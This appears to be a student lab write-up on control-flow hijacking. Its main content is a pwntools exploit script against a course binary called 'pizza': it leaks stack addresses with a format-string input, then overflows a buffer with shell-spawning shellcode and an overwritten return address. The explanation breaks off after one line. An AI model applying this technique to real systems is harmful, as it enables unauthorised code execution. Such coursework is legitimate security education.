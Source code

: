 # Control Flow Integrity Violation

## Summary of the assignment
Before we started this assignment we had to do some preliminary tasks to get started...

* Install pwntools.
* Download the victim program "pizza".
* Attempt to run and crash the program successfully or get the "segmentation fault".
* Open the victim program and analyze it in Ghidra.

Then we can start to write a Python transcript from the sample in order to crash the code and analyze the core dump.

## Script and Explanation

### Python Script
```python
#!/usr/bin/env python3
from pwn import *

# Stack Printing
def stackPrint(core, num = 20):
    rsp = core.rsp
    print("Stack")
    x = num // 2
    addresses = []
    # calculation and storing of the first half of the memory addresses
    for i in range(x, 0, -1):
        tmp = rsp + 8 * i
        addresses.append(tmp)

    # Print first address
    for addr in addresses:
        print(f"{addr:x}\t{core.read(addr, 8)}")

    # Print Stack Pointer
    print(f"{rsp:x}\t{core.read(rsp, 8)} <<<<< RSP")

    # Print second half
    for i in range(x -1, 0, -1):
        tmp = rsp -8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")
    
    stackPrint(core, num=10)

#context.log_level = 'error'

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

#getname_address = elf.symbols["getname"]

shellcode = asm(shellcraft.amd64.linux.sh())

#print(f"Shellcode: {shellcode.hex().upper()}")
#print(len(shellcode))
victim = process("./pizza")

input1 = b"%p %p %p %p %p %p %p %p %p"



print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

var = str(victim.recvline(), "latin-1")
print(var)

# Substract offsetto the start of shellcode
addr = int(var.split(" ")[7],16) -112

input2 = shellcode + b"T"*88 + addr.to_bytes(8, 'little')
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

victim.sendline(input2)

victim.interactive()

victim.wait()

exit()
```

### Explanation and Screenshots
In order to crash the victim program we had to...
